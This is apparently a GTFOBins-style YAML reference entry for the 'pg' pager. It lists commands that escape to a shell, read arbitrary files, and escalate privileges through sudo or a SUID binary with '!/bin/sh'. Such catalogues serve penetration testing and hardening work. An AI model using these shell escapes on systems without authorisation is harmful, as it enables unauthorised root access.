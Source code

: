 ```yaml
---
functions:
  execute-interactive:
    - code: |
        pg /etc/profile
        !/bin/sh
  file-read:
    - code: pg file_to_read
  sudo-enabled:
    - code: |
        sudo pg /etc/profile
        !/bin/sh
  suid-limited:
    - code: |
        ./pg /etc/profile
        !/bin/sh
---
```

